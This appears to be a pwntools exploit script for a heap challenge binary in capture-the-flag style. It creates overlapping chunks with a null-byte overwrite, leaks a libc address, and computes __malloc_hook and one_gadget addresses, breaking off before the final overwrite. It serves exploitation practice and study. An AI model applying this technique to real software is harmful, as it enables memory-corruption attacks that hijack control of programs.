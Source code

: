 ````python
if args['DEBUG']:
	context.log_level='debug'
s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()
gdba	= lambda command=''			:gdb.attach(sh,command)

def choice(elect):
	sh.recvuntil('>')
	sh.sendline(str(elect))

def add(index,size):
	choice(1)
	sh.recvuntil('?')
	sh.sendline(str(index))
	sh.recvuntil('?')
	sh.sendline(str(size))

def edit(index,content,full=False):
	choice(3)
	sh.recvuntil('?')
	sh.sendline(str(index))
	sh.recvuntil(':')
	if full:
		s(content)
	else:
		sh.sendline(content)

def show(index):
	choice(2)
	sh.recvuntil('?')
	sh.sendline(str(index))

def delete(index):
	choice(4)
	sh.recvuntil('?')
	sh.sendline(str(index))

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
add(0,0x80) #A,0
add(1,0x68)	#B,1
add(2,0xf0)	#C,2
add(3,0x10) #D,3
delete(0)
edit(1,'\x00'*0x60+p64(0x100),full=True)
delete(2)

add(4,0x80)
show(1)
ru('\n')
libc_base=u64(ru('\n').replace('\n','').ljust(8,'\x00'))-0x3c4b78
malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
gadget=[0x4527a,0xf0364,0xf1207]
onegadget=libc_base+gadget[2]
info_addr('libc_base',libc_base)
info_addr("malloc_hook",malloc_hook)
````